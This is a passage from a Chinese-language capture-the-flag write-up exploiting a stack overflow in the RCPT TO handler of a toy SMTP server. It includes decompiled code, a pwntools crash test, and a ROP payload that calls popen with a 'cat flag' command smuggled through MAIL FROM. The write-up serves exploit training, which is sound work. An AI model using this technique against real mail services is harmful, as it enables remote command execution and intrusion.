 没有 PIE 的情况下，栈溢出能直接写 ROP 劫持程序流了，因此向上去跟一下 `v3[1]` 的源头：

```c
int __cdecl session_submit(_DWORD *a1)
{
  pthread_t newthread[2]; // [esp+Ch] [ebp-Ch] BYREF

  printf("session %d: received message '%s'\n", *a1, *(a1[4] + 8));
  printf("session %d: handing off message to sender\n", *a1);
  return pthread_create(newthread, 0, sender_worker, a1[4]);
}
```

最后根据参数可以确定出这段内容：

```c
          case 2:
            if ( v35[1] != 2 && v35[1] != 3 )
              goto LABEL_41;
            v35[1] = 3;
            v14 = v35[4];
            *(v14 + 4) = strdup(*(ptr + 1));
            v15 = strlen(server_replies[0]);
            send(fd, server_replies[0], v15, 0);
            printf("session %d: state changed to got receipients\n", fd);
            break;
```

此处它将 `RCPT TO:` 后的数据放入到 `*(v14 + 4)` 处，我们用一段很长的数据来测试一下是否会引发崩溃：

```python
from pwn import *

p = remote('127.0.0.1',9999)
elf=ELF("./pwn")
p.sendafter('220 SMTP tsmtp\n','HELO toka')
p.sendafter('250 Ok\n',"MAIL FROM:toka")
p.sendafter("250 Ok\n",b"RCPT TO:"+b"a"*0x104)
p.sendafter('250 Ok\n','DATA')
p.sendafter(".<CR><LF>\n",b".\r\n" + b"fxxk")

p.interactive()
```

而在服务端那边，我们确实成功触发了 `core dump` ：

```c
sender: TO: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
sender: BODY:
Segmentation fault (core dumped)
```

那么接下来就是构造 ROP 把 flag 带出来了：

```python
from pwn import *

p = remote('127.0.0.1',9999)
elf=ELF("./pwn")
p.sendafter('220 SMTP tsmtp\n','HELO toka')
p.sendafter('250 Ok\n',"MAIL FROM:cat flag >&5;r\x00")

payload=b"a"*0x100+p32(0x804d1d0)+b'a'*0xc+p32(elf.plt["popen"])+b'dead'+p32(0x804d140)+p32(0x804d14c+1)
p.sendafter("250 Ok\n",b"RCPT TO:"+payload)
p.sendafter('250 Ok\n','DATA')
p.sendafter(".<CR><LF>\n",b".\r\n" + b"fxxk")
```